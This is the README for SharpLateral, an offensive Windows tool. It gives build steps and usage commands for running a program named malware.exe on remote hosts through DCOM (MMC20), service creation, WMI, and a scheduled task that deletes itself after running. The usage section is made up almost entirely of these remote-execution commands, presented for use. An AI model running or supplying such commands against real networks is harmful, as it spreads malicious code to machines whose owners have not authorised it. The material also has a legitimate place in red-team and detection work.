 # SharpLateral

## Compiling Project

Below 3rd party libraries are used in this project.

<b>TaskScheduler</b><br>https://github.com/dahall/TaskScheduler<br>
<b>Fody</b><br>	https://github.com/Fody/Fody<br><br>
Load the Visual Studio project up and go to "Tools" > "NuGet Package Manager" > "Package Manager Settings"<br>
Open "NuGet Package Manager" > "Package Sources"<br><br>
<b>Install the Fody</b><br>``Install-Package Costura.Fody -Version 3.3.3``<br><br>
<b>Install the Taskscheduler</b><br>``Install-Package TaskScheduler -Version 2.8.11``

## Usage

SharpLateral aims to perform lateral movement with the following methods:<br>

- DCOM
- SERVICE
- WMI
- SCHEDULED TASKS

  <br>DCOM:<br>
``SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe``<br>
Executes Malware on given hostname via MMC20
 <br>Scheduled Task:<br>
``SharpLateral schedule C:\Users\Administrator\Desktop\malware.exe TaskName``<br>
Creates Task,Executes Malware,Deletes Task<br>
<br>Service:<br>
``SharpLateral.exe redexec HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe.exe malware.exe ServiceName``<br>
  Creates Service and executes malware with it
<br>WMI:<br>
 ``SharpLateral redwmi Client2 C:\\Users\\Administrator\\Desktop\\malware.exe``<br>
Executes malware via WMI on remote host




